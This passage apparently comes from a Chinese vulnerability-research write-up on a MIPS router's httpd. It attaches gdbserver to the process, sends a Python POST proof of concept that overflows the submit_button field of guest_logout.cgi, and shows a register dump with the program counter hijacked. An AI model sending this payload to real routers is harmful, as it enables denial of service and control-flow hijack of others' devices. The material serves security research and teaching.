 目标越来越近，那到底是不是栈溢出？有没有控制流劫持呢？那还是要调试httpd这个程序看一下

### 程序调试

在上文的端口分析中，我们已经使用`busybox`中的`netstat`分析出了目标进程：

```bash
$ ./busybox-mipsel netstat -pantu | grep  443
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      356/httpd
tcp        0      0 :::443                  :::*                    LISTEN      356/httpd
```

所以只需要通过`gdbserver`对该进程进行调试，所以我们首先需要给路由器上传一个`gdbserver`上去，然后挂到目标进程上，这里有[海特实验室搜集的各种平台的gdbserver](https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/%E9%9D%99%E6%80%81%E7%BC%96%E8%AF%91%E8%B0%83%E8%AF%95%E7%A8%8B%E5%BA%8F/gdbserver)

```bash
$ wget http://192.168.1.100:8000/gdbserver
$ chmod +x ./gdbserver
$ ./gdbserver :1234 --attach 356
```

然后使用`gdb-multiarch`进行远程调试，调试方法可以参考：[HWS夏令营 之 GDB调一切](https://xuanxuanblingbling.github.io/)，GDB的插件中[pwndbg](https://github.com/pwndbg/pwndbg)对于mips和arm的支持比较好，并且在gdb中使用如下三条命令设置目标：MIPS小端

```bash
➜  gdb-multiarch -q httpd
pwndbg> set architecture mips
pwndbg> set endian little
pwndbg> target remote 192.168.1.1:1234
pwndbg> c
```

然后发刚才测试的POST报文：

```python
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

可以在`gdb-multiarch`这端看到的确把PC寄存器控制了，而且S0-S8寄存器也都可以被控制：

```bash
0x61616161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
 V0   0x0
 V1   0x73
 A0   0x4d81f2 (post_buf+66) ◂— 'tatus_guestnet.aspaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
 A1   0x47f785 ◂— 'ogin_guest.asp'
 A2   0x168
 A3   0x4f9ba8 ◂— 0x0
 T0   0x4f9b50 ◂— 0x0
 T1   0x4f9b50 ◂— 0x0
 T2   0x111
 T3   0xfffffff0
 T4   0x61616161 ('aaaa')
 T5   0x2b030004 (__ctype_b) —▸ 0x2afeabc0 (__C_ctype_b_data+256) ◂— 0x2000200
 T6   0xca5fb1e
 T7   0x61616161 ('aaaa')
 T8   0x10
 T9   0x2afc64d0 (strcoll) ◂— lbu    $v1, ($a0)
 S0   0x61616161 ('aaaa')
 S1   0x61616161 ('aaaa')
```